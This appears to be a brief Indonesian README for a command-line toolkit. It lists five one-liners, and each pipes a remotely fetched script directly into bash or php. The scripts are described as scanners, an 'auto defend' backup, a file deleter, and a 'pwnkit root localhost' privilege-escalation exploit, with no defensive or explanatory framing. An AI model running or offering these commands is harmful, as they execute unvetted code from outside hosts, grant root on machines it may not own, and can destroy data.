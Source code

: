 # fungsiini Command line linux
1, scaner cepat 
wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh -q -O - |bash

2, backup auto defend

curl -s https://example.com/script.php | php - backup y

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash

5, Mendelet berdasarkan nama file kon7l

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/delet.php | php namafile.php
